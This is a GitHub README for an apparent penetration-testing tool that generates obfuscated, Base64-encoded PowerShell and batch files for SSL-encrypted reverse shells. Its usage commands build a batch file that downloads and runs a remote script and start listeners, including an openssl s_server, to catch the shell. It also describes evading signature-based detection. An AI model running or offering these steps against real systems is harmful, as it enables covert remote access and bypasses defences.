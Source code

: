 # Reception: Reverse Shell Generator with SSL Encryption

## Overview

**Reverse** is a Python-based tool designed to generate obfuscated PowerShell scripts or batch files for establishing a reverse shell with SSL encryption. This tool can help in penetration testing scenarios where the goal is to bypass security mechanisms and establish a secure connection to a target machine.

## Features

- **Reverse Shell with SSL Encryption:** Generates PowerShell scripts that establish an encrypted reverse shell connection using SSL.
- **Obfuscation:** Each generated PowerShell script uses randomly selected variable names to avoid signature-based detection by security tools.
- **Base64 Encoding:** The PowerShell scripts are encoded in Base64 for additional obfuscation.
- **Batch File Generation:** Create a batch file that downloads and executes the encoded PowerShell script directly from a remote server.
- **Customizable:** Users can specify the IP address, port, and server URL for downloading the PowerShell script.

### Prerequisites

- Python 3.x
- OpenSSL (for certificate generation)

### Installation

Clone the repository:

```bash
git clone https://github.com/ShkudW/Reverser.git
cd Reception
```

## Usage

Generate an Encoded PowerShell Script:
```bash
python3 Reverser.py -ip <Your_Listener_Server_IP> -port <Your_Listener_Server_PORT> -type ps1
```

Generate a Batch File and PowerShell Script:
```bash
python3 Reverser.py -ip <Your_Listener_Server_IP> -port <Your_Listener_Server_PORT> -type bat -server http://<Your_Server_ip|URL>/<File-Name>.ps1
```

Open a listener for downloadingg the PS1 file with listener.py:
```bash
python3 listener.py -port <Your_Server_PORT>
```

Open a listener for getting Reverse-Shell with OpenSSL:
```bash
openssl s_server -accept <Your_Listener_Port> -cert reception.pem -key reception.key -quiet
```

## PoC:
Generate a Batch File that downloading and executing a PS1 file:

![image](https://github.com/user-attachments/assets/4816ff7f-e694-413b-8a82-eb6eec74df65)


Running the Batch file on the target machine, the connection is not secure yet, and headers that look legitimate are passed:

![image](https://github.com/user-attachments/assets/87a630c3-2310-4f91-a8fe-d0948523de2f)


Running the listener server and getting a request for downloaing the PS1 file:

![image](https://github.com/user-attachments/assets/14618c88-ba1b-452d-8b26-5e803c47772d)


Traffic is secure:

![image](https://github.com/user-attachments/assets/42f5453d-4687-4432-bfb4-070074260549)


Getting a Secure Reverse Shell:
![image](https://github.com/user-attachments/assets/16ecaf01-05fa-4e18-84a6-c063937ad808)



